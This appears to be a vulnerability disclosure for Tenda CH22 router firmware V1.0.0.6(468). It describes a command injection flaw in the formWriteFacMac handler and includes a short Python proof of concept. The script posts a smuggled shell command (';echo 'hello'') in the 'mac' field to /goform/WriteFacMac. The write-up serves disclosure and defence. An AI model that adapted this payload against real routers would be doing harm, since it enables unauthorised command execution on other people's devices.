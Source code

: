 ## Overview
Firmware download website: https://www.tenda.com.cn/download/detail-2230.html
## Affected version

CH22 V1.0.0.6(468)
## Vulnerability details

CH22 V1.0.0.6(468) firmware, we discovered a command injection vulnerablility in `formWriteFacMac` function in the `v2` parameter and the `mac` varable is directly passed to a `doSystemCmd` function, causing an arbitrary command execution. The user-provided `mac` can trigger this security vulnerability.
![[Pasted image 20240830161624.png]]
## POC

```python
import requests
from pwn import*

ip = "192.168.109.145"
url = "http://" + ip + "/goform/WriteFacMac"
payload = ";echo 'hello'"

data = {"mac": payload}
response = requests.post(url, data=data)
print(response.text)```

![[Pasted image 20240830161740.png]]